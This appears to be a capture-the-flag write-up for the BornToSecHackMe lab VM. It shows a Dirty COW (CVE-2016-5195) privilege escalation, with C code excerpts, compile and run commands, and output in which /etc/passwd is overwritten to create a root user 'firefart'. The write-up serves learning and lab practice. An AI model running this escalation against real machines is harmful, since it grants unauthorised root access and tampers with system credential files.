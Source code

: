 # Dirty COW

```shell
$ ssh laurie@192.168.56.101
        ____                _______    _____
       |  _ \              |__   __|  / ____|
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
laurie@192.168.56.101's password:
laurie@BornToSecHackMe:~$
```
Since we can login with a normal user `laurie` after exploiting FTP, from this point we can execute a Dirty COW attack. 

This vulnerability has CVE identifier [CVE-2016-5195](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2016-5195).

```shell
laurie@BornToSecHackMe:~$ uname -a
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
```
The vulnerability has existed in the Linux kernel since version 2.6.22 and has been patched in version 4.8.3. Our boot2root linux is surely affected.

```c
f = open(filename, O_RDONLY);
fstat(f, &st);
map = mmap(NULL, st.st_size + sizeof(long), PROT_READ, MAP_PRIVATE, f, 0);
```
The exploit script firstly create a private copy of a read-only file by calling `mmap`.

```c
pid = fork();
if (pid)
	/* ... */
else {
	pthread_create(&pth, NULL, madviseThread, NULL);
	ptrace(PTRACE_TRACEME);
	kill(getpid(), SIGSTOP);
	pthread_join(pth,NULL);
}
```
Next it calls `fork` to create a race condition. The new thread calls `madvise` function to tell the OS to dump the private copy during the procedure of writing data. This throwing away of the private copy results in the kernel accidentally writing to the original read-only file.


When we run the script, it writes a new root to `/etc/passwd` which we don't have writable permission.
```shell
laurie@BornToSecHackMe:~$ gcc -pthread dirty.c -o dirty -lcrypt
laurie@BornToSecHackMe:~$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
firefart:fiDFcnMz5E5z6:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '42'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '42'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

Once execution done, we can log as `firefart:42`
```shell
laurie@BornToSecHackMe:~$ su firefart
Password: 42
firefart@BornToSecHackMe:/home/laurie# id
uid=0(firefart) gid=0(root) groups=0(root)
```
